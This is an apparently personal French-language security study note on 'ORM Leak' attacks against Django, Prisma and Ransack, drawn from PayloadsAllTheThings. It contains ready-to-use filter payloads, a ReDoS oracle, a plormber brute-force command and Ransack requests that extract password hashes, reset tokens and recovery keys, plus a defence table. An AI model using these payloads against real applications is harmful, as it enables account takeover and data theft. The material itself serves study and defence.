

# 🗃️ ORM Leak

> [!info] **En 1 phrase**
> ORM Leak = l'ORM construit des requêtes à partir d'un **objet de filtre contrôlé par l'attaquant** (mass assignment des paramètres) → l'attaquant accède à des **colonnes et relations cachées** et **exfiltre** les données.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/ORM%20Leak/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Les ORM (Django, Prisma, Ransack) utilisent la **syntaxe de paramètres nommés** pour construire les filtres. Si l'input utilisateur est passé **en bloc** (`filter(**request.data)`, `where: req.query.filter`), l'attaquant contrôle **champ**, **opérateur** et **traversée de relations** — même des champs non exposés par l'API.

---

## 🐍 Django (Python)

```python
users = User.objects.filter(**request.data)   # VULNÉRABLE
serializer = UserSerializer(users, many=True)
```

### Filtres utiles

| Opérateur | Effet |
|---|---|
| `__startswith` | prefix match → LIKE |
| `__contains` | sous-chaîne → LIKE `%x%` |
| `__regex` | matching par regex utilisateur (jusqu'au ReDoS !) |

```json
{
  "username": "admin",
  "password__startswith": "p"
}
```

### Traversée de relations

> Le `__` traverse les relations du modèle. On peut ainsi filtrer par n'importe quel champ **atteignable** → les réponses révèlent la présence/absence de valeurs (blind).

```json
{
  "created_by__user__password__contains": "p"
}
```

```json
{
  "created_by__departments__employees__user__username__startswith": "p",
  "created_by__departments__employees__user__id": 1
}
```

### Error-based par ReDoS (MySQL)

> Une regex explosive dans `__regex` fait dépasser le timeout MySQL → **erreur 500** si la condition ne matche pas, réponse normale sinon → oracle binaire.

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// → retourne quelque chose

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}
// → Error 500 (Timeout exceeded in regular expression match)
```

---

## ⚙️ Prisma (Node.JS)

```js
const posts = await prisma.article.findMany({
  where: req.query.filter as any   // VULNÉRABLE
})
```

### include / select (fuite de champs non exposés)

```json
{ "filter": { "include": { "createdBy": true } } }
```

```json
{ "filter": { "select": { "createdBy": { "select": { "password": true } } } } }
```

### Relational filtering (time-based / startsWith)

```text
GET /articles?filter[createdBy][resetToken][startsWith]=06
```

```json
{
  "query": {
    "createdBy": { "departments": { "some": { "employees": { "some": {
      "departments": { "some": { "employees": { "some": {
        "departments": { "some": { "employees": { "some": {
          "{fieldToLeak}": { "startsWith": "{testStartsWith}" }
        }}}}}}}}}}}}}}}}}}}}}}
  }
}
```

> [!tip] 💡 **Time-based**
> Prisma supporte le **time-based** : avec une clause `contains` lente + une colonne cible en `startsWith`, on brute-force caractère par caractère (outil **plormber**).

```bash
plormber prisma-contains --chars '0123456789abcdef' \
  --base-query-json '{"query": {PAYLOAD}}' \
  --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
  --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
  --verbose-stats https://some.vuln.app/articles/time-based
```

---

## 💎 Ransack (Ruby on Rails)

> ⚠️ Vulnérable uniquement en **Ransack < 4.0.0**. Les paramètres `q[...]` sont passés aux recherches.

```text
# Extraction du reset_password_token d'un user (blind prefix)
GET /posts?q[user_reset_password_token_start]=2  → Results in page
GET /posts?q[user_reset_password_token_start]=2c → Empty results
GET /posts?q[user_reset_password_token_start]=2f → Results in page

# Cibler un utilisateur précis et extraire sa recoveries_key
GET /labs?q[creator_roles_name_cont]=superadmin&q[creator_recoveries_key_start]=0
```

---

## 📋 CVE notables

| CVE | Produit |
|---|---|
| CVE-2023-47117 | Label Studio ORM Leak |
| CVE-2023-31133 | Ghost CMS ORM Leak |
| CVE-2023-30843 | Payload CMS ORM Leak |

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Détection** | Poster des `__contains` / `__regex` / `filter[...]` / `include` inattendus → observer les réponses |
| **Allowlist de champs** | N'accepter qu'une liste explicite de champs/opérateurs de filtre |
| **Ne pas dé-packer l'input** | Interdire `filter(**request.data)` / `where: req.query.filter` — mapper manuellement les params |
| **Masquer les relations** | Ne pas exposer les champs sensibles (`password`, `token`) dans les modèles de sérialisation |
| **ReDoS** | Interdire `__regex` côté client ou borner sa longueur |
| **Limites de requêtes** | Pagination + limites sur les traversées profondes de relations |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Mode opératoire**
> 1. Tester `champ__startswith`/`__contains` sur des valeurs connues (ex: `admin`) → l'API répond-elle différemment ?
> 2. Remonter les **relations** (`__user__password__contains`) pour atteindre les champs sensibles.
> 3. Bruteforcer par **prefix** (dichotomie, time/boolean selon le framework).

> [!warning] ⚠️ **Pièges**
> - Ce n'est pas une SQLi classique : on ne sort pas de la requête, on **contrôle la structure** d'un filtre déjà validé.
> - Les champs sensibles ne sont pas forcément **rendus** — on les détecte en **blind** (différence de résultats/erreurs).
> - La traversée **Many-to-Many** exige plusieurs niveaux `some`/`__` (chaînes longues) → prévoir des payloads profondes.
> - **Ransack 4.0+** bloque les recherches par champs non déclarés — vérifier la version.
> - La fuite type est : **password hash, reset tokens, recovery keys** → account takeover.

---

## 🔗 Liens

- [[Mass Assignment|⚖️ Mass Assignment]]
- [[Injection SQL|💾 SQLi]]
- [[Regular Expression|🔤 Regular Expression (ReDoS)]]
- [[API Key Leaks|🔑 API Key Leaks]]
- → [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — ORM Leak](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/ORM%20Leak/README.md)
